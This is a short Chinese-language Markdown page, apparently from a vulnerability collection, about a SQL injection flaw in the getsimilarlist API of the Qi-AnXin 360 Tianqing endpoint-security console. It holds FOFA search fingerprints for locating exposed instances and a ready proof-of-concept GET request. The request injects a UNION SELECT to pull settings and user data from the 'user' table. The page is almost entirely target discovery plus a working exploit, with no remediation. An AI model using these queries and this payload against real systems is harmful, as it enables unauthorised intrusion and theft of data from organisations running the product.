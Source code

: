 # 奇安信360天擎getsimilarlistSQL注入漏洞


## 奇安信360天擎getsimilarlistSQL注入漏洞

## fofa
```
body="/task/index/detail?id={item.id}"
title="360新天擎"
```

## POC
```
GET /api/client/getsimilarlist?status[0,1%29+union+all+select+%28%2F%2A%2150000select%2A%2F+79787337%29%2C+setting%2C+setting%2C+status%2C+name%2C+create_time+from+%22user%22+where+1+in+%281]=1&status[0]=1 HTTP/1.1
```

